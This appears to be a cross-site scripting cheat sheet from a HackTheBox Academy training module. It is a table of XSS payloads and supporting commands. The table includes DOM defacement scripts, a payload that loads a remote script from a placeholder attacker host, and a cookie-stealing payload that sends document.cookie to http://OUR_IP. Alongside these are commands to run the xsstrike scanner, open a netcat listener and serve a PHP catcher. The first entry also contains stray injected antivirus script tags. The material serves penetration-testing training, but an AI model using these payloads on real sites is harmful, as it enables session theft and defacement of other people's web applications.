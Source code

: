 # Cross Site Scripting (XSS)

| Code                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       | Description                       |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | --------------------------------- |
| **XSS Payloads**                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |                                   |
| `<script type="text/javascript" src="https://me.kis.v2.scr.kaspersky-labs.com/FD126C42-EBFA-4E12-B309-BB3FDD723AC1/main.js?attr=Kzobm504m6MoUaJag6edMIX4QuroZeEKy-1PqdJHsuO9SAoWzDPUJgq2vjwlleXOOPd-UKzWru62FewcEoUMfm1GmH78bnR-wXvZ9ujsJTM" charset="UTF-8"></script><link rel="stylesheet" crossorigin="anonymous" href="https://me.kis.v2.scr.kaspersky-labs.com/E3E8934C-235A-4B0E-825A-35A08381A191/abn/main.css?attr=aHR0cHM6Ly9hY2FkZW15LmhhY2t0aGVib3guY29tL21vZHVsZS9jaGVhdHNoZWV0LzEwMw"/><script>alert(window.origin)</script>` | Basic XSS Payload                 |
| `<plaintext>`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              | Basic XSS Payload                 |
| `<script>print()</script>`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 | Basic XSS Payload                 |
| `<img src="" onerror=alert(window.origin)>`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                | HTML-based XSS Payload            |
| `<script>document.body.style.background = "#141d2b"</script>`                                                                                                                                                                                                                                                                                                                                                                                                                                                                              | Change Background Color           |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>`                                                                                                                                                                                                                                                                                                                                                                                                                                              | Change Background Image           |
| `<script>document.title = 'HackTheBox Academy'</script>`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   | Change Website Title              |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>`                                                                                                                                                                                                                                                                                                                                                                                                                                                             | Overwrite website's main body     |
| `<script>document.getElementById('urlform').remove();</script>`                                                                                                                                                                                                                                                                                                                                                                                                                                                                            | Remove certain HTML element       |
| `<script src="http://OUR_IP/script.js"></script>`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          | Load remote script                |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>`                                                                                                                                                                                                                                                                                                                                                                                                                                                            | Send Cookie details to us         |
| **Commands**                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |                                   |
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"`                                                                                                                                                                                                                                                                                                                                                                                                                                                                        | Run `xsstrike` on a url parameter |
| `sudo nc -lvnp 80`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         | Start `netcat` listener           |
| `sudo php -S 0.0.0.0:80`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   | Start `PHP` server                |
